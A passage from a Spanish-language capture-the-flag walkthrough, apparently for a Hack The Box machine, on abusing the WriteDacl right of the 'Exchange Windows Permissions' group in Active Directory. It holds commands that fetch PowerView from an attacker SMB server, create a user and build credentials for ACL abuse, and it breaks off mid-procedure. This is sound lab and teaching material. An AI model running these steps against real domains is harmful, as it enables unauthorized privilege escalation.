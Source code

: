 
A su vez, si queremos ver la relación que hay entre el grupo "Exchange Windows Permissions" y el dominio a través del privilegio WriteDacl, hacemos nuevamente click derecho -> help. A su vez, esto nos permite conocer la forma de explotar este privilegio:

![25](Images/25.png)


En el apartado "Windows Abuse" nos explica el paso a paso para hacerlo desde dentro.

Si observamos la información que nos facilita BloodHound para la explotación de este privilegio, vemos que necesitamos compartir powerview.ps1 para hacer uso de Add-DomainObjectAcl. Para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
  
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
  
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

- Creamos usuario pwn:

![26](Images/26.png)


- Le añadimos al grupo "Exchange Windows Permissions"

![27](Images/27.png)

Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```
